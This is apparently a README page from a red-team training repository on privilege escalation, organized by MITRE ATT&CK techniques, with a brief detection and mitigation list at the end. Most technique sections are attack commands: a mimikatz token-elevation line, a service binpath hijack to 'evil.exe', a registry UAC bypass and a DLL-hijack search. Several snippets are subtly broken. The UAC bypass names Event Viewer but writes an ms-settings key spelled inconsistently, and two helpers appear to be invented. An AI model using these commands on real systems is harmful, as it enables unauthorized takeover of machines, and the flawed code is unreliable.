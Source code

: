 # Phase 4: Privilege Escalation

## 🎯 Overview

Privilege Escalation techniques enable adversaries to gain higher-level permissions on systems. Essential for accessing protected resources and achieving operational objectives.

### MITRE ATT&CK: Privilege Escalation (TA0004)
**Coverage**: 13 techniques including exploitation, token manipulation, DLL hijacking, and abuse of legitimate credentials.

---

## Key Techniques

### 1. Exploitation for Privilege Escalation (T1068)
```bash
# Common Windows exploits
- MS16-032 (Secondary Logon)
- MS16-075 (Hot Potato)
- MS17-010 (EternalBlue)
- CVE-2020-0787 (bits.exe)
- CVE-2021-1675 (PrintNightmare)

# Linux exploits
- DirtyCOW (CVE-2016-5195)
- PwnKit (CVE-2021-4034)
- Sudo vulnerabilities
```

### 2. Access Token Manipulation (T1134)
```powershell
# Steal SYSTEM token
mimikatz.exe "privilege::debug" "token::elevate" "exit"

# Impersonate token
$proc = Get-Process lsass
[Win32.ProcessToken]::ImpersonateProcessToken($proc.Id)
```

### 3. DLL Hijacking (T1574.001)
```powershell
# Find vulnerable applications
Get-ChildItem "C:\Program Files\" -Recurse -Filter "*.exe" | ForEach-Object {
    $missing = Check-MissingDLLs $_.FullName
    if ($missing) { Write-Output $_ }
}
```

### 4. Windows Services (T1574.011)
```batch
# Unquoted service path
sc qc VulnerableService
sc config VulnerableService binpath= "C:\Temp\evil.exe"
sc start VulnerableService
```

### 5. UAC Bypass (T1548.002)
```powershell
# Event Viewer UAC bypass
New-Item -Path "HKCU:\Software\Classes\ms settings\shell\open\command" -Force
Set-ItemProperty -Path "HKCU:\Software\Classes\mssettings\shell\open\command" -Name "(Default)" -Value "cmd.exe"
Start-Process eventvwr.exe
```

---

## Detection & Mitigation

**Detection**:
- Monitor for exploitation attempts
- Track token manipulation
- Audit service modifications

**Mitigation**:
- Regular patching
- Least privilege principle
- Application whitelisting

---

**Next**: [Phase 5: Defense Evasion →](../05-defense-evasion/README.md)
**Previous**: [← Phase 3: Execution](../03-execution-persistence/README.md)